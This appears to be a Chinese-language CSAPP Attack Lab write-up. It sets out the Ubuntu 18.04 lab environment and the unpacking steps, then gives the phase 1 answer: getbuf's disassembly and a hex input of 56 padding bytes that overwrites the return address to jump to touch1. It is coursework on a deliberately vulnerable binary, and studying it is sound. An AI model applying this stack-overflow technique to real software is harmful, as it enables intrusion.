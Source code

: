 # 实验环境
虚拟机:VMware Workstation17
系统镜像: ubuntu-18.04.5-desktop-amd64.iso
**注意 ：根据参考文献可知[CSAPP - Attack Lab 详解](https://jkup64.github.io/2023/06/21/%E8%AE%A1%E7%AE%97%E6%9C%BA%E5%9F%BA%E7%A1%80-CSAPP-l3-attacklab/index.html) ， 在 WSL2 和 VMware 中的 Ubuntu22.04 无法进行本实验**
GCC环境(gcc version):gcc (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
GBD : GNU gdb (Ubuntu 8.1.1-0ubuntu1) 8.1.1
vim版本 8.2.2121
实验包:target ******.tar
# 实验准备
下载实验包 : target ******.tar

对实验包进行解压

解压命令解析:
```
tar -xvf target ******.tar
-xvf 
x – 解压文件
v – 显示进度
f – 文件名
后面接着的是需要解压文件(压缩包)的名字
```
# 大富翁
只讲大致流程和答案
## 101
### phase1

```c
00000000004017bb <getbuf>:
  4017bb:	48 83 ec 38          	sub    $0x38,%rsp
  4017bf:	48 89 e7             	mov    %rsp,%rdi
  4017c2:	e8 94 02 00 00       	callq  401a5b <Gets>
  4017c7:	b8 01 00 00 00       	mov    $0x1,%eax
  4017cc:	48 83 c4 38          	add    $0x38,%rsp
  4017d0:	c3                   	retq   
```
注意到栈空间为 0x38 字节，填充56个字节垃圾信息后跟上touch1()函数首地址：00000000004017d1

**答案**：
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d1 17 40 00 00 00 00 00
```

